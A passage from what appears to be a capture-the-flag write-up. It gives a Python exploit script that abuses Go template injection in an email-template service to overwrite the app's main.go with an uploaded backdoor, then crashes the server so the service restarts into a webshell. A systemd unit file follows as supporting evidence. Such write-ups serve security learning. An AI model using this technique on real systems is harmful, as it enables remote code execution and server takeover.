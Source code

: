 ```python
import requests

URL = "http://dev-7fe5c15819a3af65.email-template.ctf"
payload = {
    "template": """
{{ .c.SaveUploadedFile (.c.FormFile "fish") "/app/main.go" }}
"""
}

files = {'fish': open("backdoor.go", "r")}

# Updates the preview template.
r = requests.post(URL+"/update", json=payload)
print(r.status_code)
print(r.text)

# Triggers the rendering of our template with the provided form file
r = requests.post(URL+"/preview?", files=files)
print(r.status_code)
print(r.text)

# Crashes server, which restarts the service.
r = requests.post(URL+"/update")
print(r.status_code)
print(r.text)

```

This ended up working although I was not too confident. Right after the CTF, I realized I could have looked into the definition of the service. Later, another player confirmed that the file `/etc/systemd/system/email-template.service` showed all the necessary information to be confident in this attack. Next time, I will be more careful as that service's name was mentioned in the `reset.php` script and I should have taken a look.
```
[Unit]
Description=Email Template

[Service]
Type=simple
User=www-data
Group=www-data
Restart=always
RestartSec=5s
WorkingDirectory=/app/
ExecStart=/usr/local/go/bin/go run /app/main.go

[Install]
WantedBy=multi-user.target
```

With our webshell it is trivial to get the flag.

